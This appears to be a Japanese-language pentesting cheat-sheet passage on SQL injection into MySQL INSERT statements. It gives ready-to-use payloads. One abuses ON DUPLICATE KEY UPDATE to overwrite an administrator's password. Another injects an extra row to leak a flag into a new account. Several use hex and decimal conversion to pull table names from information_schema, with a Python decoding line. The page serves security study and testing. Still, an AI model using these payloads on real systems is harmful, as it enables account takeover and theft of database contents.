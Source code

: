 MySQLの`ON DUPLICATE KEY UPDATE`句は、UNIQUEインデックスまたはPRIMARY KEYで重複する値が発生する行を挿入しようとしたときに、データベースが実行するアクションを指定するために使用されます。以下の例は、この機能がどのように悪用されて管理者アカウントのパスワードを変更するかを示しています。

Example Payload Injection:

注入ペイロードは次のように作成される可能性があり、`users`テーブルに2行を挿入しようとしています。最初の行はおとりで、2番目の行は既存の管理者のメールアドレスをターゲットにしてパスワードを更新する意図があります：
```sql
INSERT INTO users (email, password) VALUES ("generic_user@example.com", "bcrypt_hash_of_newpassword"), ("admin_generic@example.com", "bcrypt_hash_of_newpassword") ON DUPLICATE KEY UPDATE password="bcrypt_hash_of_newpassword" -- ";
```
Here's how it works:

- クエリは2つの行を挿入しようとします：1つは `generic_user@example.com` 用、もう1つは `admin_generic@example.com` 用です。
- もし `admin_generic@example.com` の行がすでに存在する場合、`ON DUPLICATE KEY UPDATE` 句がトリガーされ、MySQLに既存の行の `password` フィールドを "bcrypt_hash_of_newpassword" に更新するよう指示します。
- その結果、`admin_generic@example.com` を使用して、bcryptハッシュに対応するパスワードで認証を試みることができます（"bcrypt_hash_of_newpassword" は新しいパスワードのbcryptハッシュを表し、実際のパスワードのハッシュに置き換える必要があります）。

### Extract information

#### Creating 2 accounts at the same time

新しいユーザーを作成しようとする際には、ユーザー名、パスワード、メールが必要です：
```
SQLi payload:
username=TEST&password=TEST&email=TEST'),('otherUsername','otherPassword',(select flag from flag limit 1))-- -

A new user with username=otherUsername, password=otherPassword, email:FLAG will be created
```
#### Using decimal or hexadecimal

この技術を使用すると、1つのアカウントを作成するだけで情報を抽出できます。コメントを追加する必要はないことに注意してください。

Using **hex2dec** and **substr**:
```sql
'+(select conv(hex(substr(table_name,1,6)),16,10) FROM information_schema.tables WHERE table_schema=database() ORDER BY table_name ASC limit 0,1)+'
```
テキストを取得するには、次のようにします：
```python
__import__('binascii').unhexlify(hex(215573607263)[2:])
```
**hex** と **replace** (および **substr**) を使用して:
```sql
'+(select hex(replace(replace(replace(replace(replace(replace(table_name,"j"," "),"k","!"),"l","\""),"m","#"),"o","$"),"_","%")) FROM information_schema.tables WHERE table_schema=database() ORDER BY table_name ASC limit 0,1)+'

'+(select hex(replace(replace(replace(replace(replace(replace(substr(table_name,1,7),"j"," "),"k","!"),"l","\""),"m","#"),"o","$"),"_","%")) FROM information_schema.tables WHERE table_schema=database() ORDER BY table_name ASC limit 0,1)+'

#Full ascii uppercase and lowercase replace:
'+(select hex(replace(replace(replace(replace(replace(replace(replace(replace(replace(replace(replace(replace(replace(replace(substr(table_name,1,7),"j"," "),"k","!"),"l","\""),"m","#"),"o","$"),"_","%"),"z","&"),"J","'"),"K","`"),"L","("),"M",")"),"N","@"),"O","$$"),"Z","&&")) FROM information_schema.tables WHERE table_schema=database() ORDER BY table_name ASC limit 0,1)+'
```
<figure><img src="https://files.gitbook.com/v0/b/gitbook-x-prod.appspot.com/o/spaces%2F-L_2uGJGU7AVNRcqRvEi%2Fuploads%2FelPCTwoecVdnsfjxCZtN%2Fimage.png?alt=media&#x26;token=9ee4ff3e-92dc-471c-abfe-1c25e446a6ed" alt=""><figcaption></figcaption></figure>

